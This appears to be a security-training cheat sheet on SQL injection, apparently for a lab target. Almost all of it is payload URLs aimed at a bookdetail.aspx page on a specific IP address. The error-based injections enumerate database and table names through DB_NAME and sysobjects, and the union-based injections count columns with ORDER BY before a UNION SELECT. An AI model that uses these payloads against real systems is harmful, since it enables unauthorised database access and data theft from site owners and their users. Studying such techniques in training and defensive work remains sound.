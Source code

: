 Exception Details: System.Data.SqlClient.SqlException: Unclosed quotation mark after the character string ''.










#############################################################################
# SQL Injection                                                             #
# https://s3.amazonaws.com/StrategicSec-Files/1-Intro_To_SQL_Intection.pptx #
#############################################################################


- Another quick way to test for SQLI is to remove the paramter value

 
#############################
# Error-Based SQL Injection #
#############################
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(1))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(2))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(3))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(4))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(N))-- 	NOTE: "N" - just means to keep going until you run out of databases
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85) and name>'bookmaster')--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85) and name>'sysdiagrams')--




#############################
# Union-Based SQL Injection #
#############################
http://54.213.100.93/bookdetail.aspx?id=2 order by 100--
http://54.213.100.93/bookdetail.aspx?id=2 order by 50--
http://54.213.100.93/bookdetail.aspx?id=2 order by 25--
http://54.213.100.93/bookdetail.aspx?id=2 order by 10--
http://54.213.100.93/bookdetail.aspx?id=2 order by 5--
http://54.213.100.93/bookdetail.aspx?id=2 order by 6--
http://54.213.100.93/bookdetail.aspx?id=2 order by 7--
http://54.213.100.93/bookdetail.aspx?id=2 order by 8--
http://54.213.100.93/bookdetail.aspx?id=2 order by 9--
http://54.213.100.93/bookdetail.aspx?id=2 union all select 1,2,3,4,5,6,7,8,9--
